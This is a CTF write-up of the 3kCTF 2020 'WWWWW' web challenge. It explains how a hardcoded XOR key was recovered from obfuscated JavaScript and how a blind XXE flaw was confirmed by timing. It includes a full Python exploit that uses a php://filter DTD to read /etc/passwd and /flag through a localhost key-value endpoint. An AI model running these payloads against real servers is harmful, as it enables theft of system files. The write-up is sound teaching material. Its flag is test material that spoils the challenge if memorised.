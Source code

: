 ```yaml
---
layout: post
title: WWWWW
category: 3kCTF 2020
---
```


On July 24th we hosted the 3k international CTF, we tried to make it a good quality CTF as much as possible, we also tried not to make the challenge mostly guessable
, thats why as challenge includes a recon technique ( brute-forcing dirs/files) ,we added note that the task is kind of bounty challenge :)


To begin , the first steps were not that hard to find the vulnerability which was XXE but was a bit hard to exploit :) I will discuss this in my write up.


The usual steps when checking out a web challenge or even when trying to find bugs in a website that we have never used is to check all possible functions at least on the main domain.


At the first check, we get an idea of what the website is!

![index](https://user-images.githubusercontent.com/7364615/88489371-2fa9fb80-cf94-11ea-86d0-1386be5d49d9.png)

Checking out each function and using burp to log all possible queries during that time, we found an interesting request that was triggered.

![api](https://user-images.githubusercontent.com/7364615/88489526-03db4580-cf95-11ea-8325-40a547d825b9.png)

We tried to decode the base64 data that was sent by it was not only encoded thats why we got garbage data. we get back to the source code page to check where the `api.php` is used ,but we just found some obfuscated javascript code.

![js](https://user-images.githubusercontent.com/7364615/88489581-5288df80-cf95-11ea-889a-94734ed431b8.png)

We tried to deobfuscate it, but that was the worst option, it will take some time so the best solution will be to use `chrome devtools` and debug the code directly and check what is going on in our data!


Simply putting a breakpoint right after extracting the value of `email` line.

![bp](https://user-images.githubusercontent.com/7364615/88489835-38e89780-cf97-11ea-8c07-c688a7cd2867.png)

Continuing to track the functions called just before the final base64 data, we found that it was just xoring the email that was injected into a hardcoded XML document , where the key : `hSuuzuKdkvJeWgjW`

![xor](https://user-images.githubusercontent.com/7364615/88489906-e8be0500-cf97-11ea-9dbe-fc7d41de3910.png)

As we understand what the app was doing in the background, we can write simple code or just edit the XML each time using devtools.


First, to confirm that there is an XML external entity vulnerability, we can xor and encode our own payload directly without going through the javascript used on the application.


To confirm that we have XXE here, we just tried a simple payload, but as `api.php` just returns` {" result ":" ok "}` if the xml parse pass and` {"result": " error "}` if not.


and also after trying to include external url to verify pingback, we found that there was no request even a simple DNS request. So how can we confirm that we have XXE ?!


Easy, just use external url and local url to check (same as time based SQL injection :D)

![xxe](https://user-images.githubusercontent.com/7364615/88490135-a3023c00-cf99-11ea-822b-63be9052c210.png)

After encoding the url and sending these two payloads separately, we found that the payload that requests an external url takes a long time compared to the one that requests localhost which confirms that we have XXE in our case.


So as its bug bounty style based challenge, here we can ask our best friend `dirsearch` tool and he will tell us what to do :D

![dir](https://user-images.githubusercontent.com/7364615/88490248-8581a200-cf9a-11ea-8514-51519937ff70.png)

And yes :), we just got a cool output that includes results that we still haven't verified!


Digging a little deeper into the result, we found an endpoint that can be used to dump information about hotel and restaurant locations, but the most interesting part was this.

![file](https://user-images.githubusercontent.com/7364615/88490293-f628be80-cf9a-11ea-88a4-7d5e488e0ec7.png)

There was another file, visiting it it will come out

```
{"msg":"sid=mfI1xkAsOdZzHCoFTcJY8eNtiE5h4Ru0","read":"\/define.php?sid=mfI1xkAsOdZzHCoFTcJY8eNtiE5h4Ru0","write":"\/define.php?sid=mfI1xkAsOdZzHCoFTcJY8eNtiE5h4Ru0&key=test&value=test"}
```


By checking and trying multiple attempts we confirm two results, we can either dump our config settings or change them as needed, but we should use our sid in each request which looks like a sessionid value


For example, to update current values, we can just request `http://wwwweb.3k.ctf.to/define.php?sid=mfI1xkAsOdZzHCoFTcJY8eNtiE5h4Ru0&key=test&value=test` and then `http://wwwweb.3k.ctf.to/define.php?sid=mfI1xkAsOdZzHCoFTcJY8eNtiE5h4Ru0` to confirm the update


Thinking about how to use this feature like a weapon, we can just make this endpoint which can be reached from localhost too as store file, so as we need in the normal exploit a External DTD but in this case there was no outgoing port open, using a php wrapper which should be supported in this case to return our DTD content as if it had been loaded from the outside. 

![sploit](https://user-images.githubusercontent.com/7364615/88492194-33944880-cfa9-11ea-9aa3-7884fd0e3787.png)

```
import requests
import base64
import json
from pwn import *

s = requests.Session()
key_xor = "hSuuzuKdkvJeWgjW"

def getsid():
    response = s.get('http://wwwweb.3k.ctf.to/define.php')
    return response.json()['msg'][4:]

def getdata(sid):
    response = s.get('http://wwwweb.3k.ctf.to/define.php?sid='+sid)
    return response.text

def testchange(sid):
    response = s.get('http://wwwweb.3k.ctf.to/define.php?sid='+sid+'&key=test&value=test')
    return response.text

def sendpayload(sid,payload):
  url = "http://wwwweb.3k.ctf.to/api.php"
  header = {"Content-type": "application/x-www-form-urlencoded", "Accept": "*/*", "Origin": "http://wwwweb.3k.ctf.to", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-GB,en-US;q=0.9,en;q=0.8", "dnt": "1", "Connection": "close"}
  response = requests.post(url, headers=header, data=payload)

def create_pay(key,dtd):
  return {"xml": b64e(xor("<!DOCTYPE r [\r\n  <!ELEMENT r ANY >\r\n  <!ENTITY % sp SYSTEM \"php://filter//resource=data://text/plain;base64,"+base64.b64encode(dtd)+"\"> %sp; %param1;\r\n]>\r\n<subscribe><email>&exfil;</email></subscribe>",key))}

sid = getsid()

print "[*] SID : "+sid
print "[*] Default value : "+ getdata(sid)
print "[*] Make small changes to test : "+ testchange(sid)
print "[*] New value : \n"+ getdata(sid)

external_dtd_1 = '<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=file:///etc/passwd"><!ENTITY % param1 \'<!ENTITY exfil SYSTEM "http://localhost/define.php?sid='+sid+'&#38;key=xxe&#38;value=%data;">\'>'
external_dtd_2 = '<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=file:///flag"><!ENTITY % param1 \'<!ENTITY exfil SYSTEM "http://localhost/define.php?sid='+sid+'&#38;key=xxe&#38;value=%data;">\'>'

print "[*] Send payload 1 \n"
sendpayload(sid,create_pay(key_xor,external_dtd_1))
out = json.loads(getdata(sid))['value']
print "[*] Output file: \n"+ base64.b64decode(out)

print "[*] Send payload 2 \n"
sendpayload(sid,create_pay(key_xor,external_dtd_2))
out = json.loads(getdata(sid))['value']
print "[*] Output file: \n"+ base64.b64decode(out)

print "[*] Reset value to prevent leak"
testchange(sid)
```

and the flag was : `3k{cL457rBpVxsJnRXNR9vW6uR4hbKszeFs}`


Thanks for reading, well done `RedRocket` and `WreckTheLine` who were the only two teams to solve the challenge during the CTF.


See you next time :)
